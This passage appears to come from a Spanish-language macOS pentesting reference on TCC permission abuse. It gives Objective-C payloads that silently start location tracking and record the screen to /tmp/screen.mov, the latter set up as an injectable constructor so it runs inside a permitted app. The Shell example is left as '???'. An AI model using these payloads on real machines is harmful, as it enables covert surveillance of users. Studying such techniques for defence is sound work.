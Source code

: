 ```objectivec
{
freopen("/tmp/logs.txt", "w", stderr); // Redirect stderr to /tmp/logs.txt

NSLog(@"Getting location");
CLLocationManager *locationManager = [[CLLocationManager alloc] init];
LocationManagerDelegate *delegate = [[LocationManagerDelegate alloc] init];
locationManager.delegate = delegate;

[locationManager requestWhenInUseAuthorization]; // or use requestAlwaysAuthorization
[locationManager startUpdatingLocation];

NSRunLoop *runLoop = [NSRunLoop currentRunLoop];
while (true) {
[runLoop runUntilDate:[NSDate dateWithTimeIntervalSinceNow:1.0]];
}

NSLog(@"Location completed successfully.");
freopen("/tmp/logs.txt", "w", stderr); // Redirect stderr to /tmp/logs.txt
}
```
{% endtab %}

{% tab title="Shell" %}
Obtener acceso a la ubicación
```
???
```
{% endtab %}
{% endtabs %}

### Grabación de Pantalla

* **Privilegio**: Ninguno
* **TCC**: `kTCCServiceScreenCapture`

{% tabs %}
{% tab title="ObjectiveC" %}
Graba la pantalla principal durante 5s en `/tmp/screen.mov`
```objectivec
#import <Foundation/Foundation.h>
#import <AVFoundation/AVFoundation.h>

// clang -framework Foundation -framework AVFoundation -framework CoreVideo -framework CoreMedia -framework CoreGraphics -o ScreenCapture ScreenCapture.m

@interface MyRecordingDelegate : NSObject <AVCaptureFileOutputRecordingDelegate>
@end

@implementation MyRecordingDelegate

- (void)captureOutput:(AVCaptureFileOutput *)output
didFinishRecordingToOutputFileAtURL:(NSURL *)outputFileURL
fromConnections:(NSArray *)connections
error:(NSError *)error {
if (error) {
NSLog(@"Recording error: %@", error);
} else {
NSLog(@"Recording finished successfully.");
}
exit(0);
}

@end

__attribute__((constructor))
```